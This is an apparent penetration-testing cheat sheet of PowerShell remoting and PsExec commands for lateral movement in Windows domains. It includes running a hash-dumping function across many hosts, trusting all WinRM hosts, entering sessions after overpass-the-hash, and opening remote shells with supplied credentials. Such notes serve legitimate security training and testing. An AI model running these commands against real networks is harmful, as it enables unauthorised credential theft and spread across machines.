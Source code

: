#### Execute script on multiple machines
```
Invoke-Command –FilePath script.ps1 -ComputerName (Get-Content computers.txt)
```

#### Execute locally loaded function on remote machines:
```
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content computers.txt)
```

#### Copy item to PSSession
```
Copy-Item -ToSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### Copy item from PSSession
```
Copy-Item -FromSession $sess -Path <PATH> -Destination <DEST> -verbose
```

#### PSremoting NTLM authetication (after overpass the hash)
```
Enter-PSSession -ComputerName <COMPUTERNAME> -Authentication NegotiateWithImplicitCredential
```

#### Get trusted hosts
```
Get-Item WSMan:\localhost\Client\TrustedHosts
```

#### Add trusted host
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '<MACHINE OR IP>' -Concatenate
```

#### Trust all hosts
```
Set-Item WSMan:\localhost\Client\TrustedHosts -Value '*'
```

#### Connect from kali
```
pwsh
$pass = ConvertTo-SecureString '<PASS>' -AsPlainText -force
$cred = New-Object System.Management.Automation.PSCredential('<FQDN DOMAIN>\<USER>',$pass)
Enter-PSSession -Computer <IP> -credential $cred -Authentication Negotiate
```

### PSexec
```
psexec.exe -u <DOMAIN>\<USER> -p <PASSWORD> \\<TARGET> cmd.exe
python psexec.py <DOMAIN>/<USER>:<PASSWORD>@<TARGET>
```
